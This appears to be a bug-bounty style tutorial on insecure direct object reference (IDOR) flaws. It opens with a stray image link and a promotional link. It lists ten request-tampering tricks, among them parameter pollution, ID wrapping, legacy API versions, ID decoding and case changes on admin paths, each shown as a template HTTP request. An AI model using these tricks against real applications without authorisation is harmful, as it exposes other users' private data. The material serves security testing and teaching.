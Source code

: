 <a href='https://zero-eg.com/'>Click heret
---
title: IDOR Tips
author: Elsfa7-110
categories: [IDOR, Tutorial]
tags: [IDOR]
pin: true
---
## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

1. Add parameters onto the endpoints for example, if there was
```html
GET /api/v1/getuser
[...]
```
Try this to bypass
```html
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution

```html
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```html
GET /v2/GetData/1234
[...]
```
Try this to bypass
```html
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions

```html
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```html
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```html
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```

10. MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```
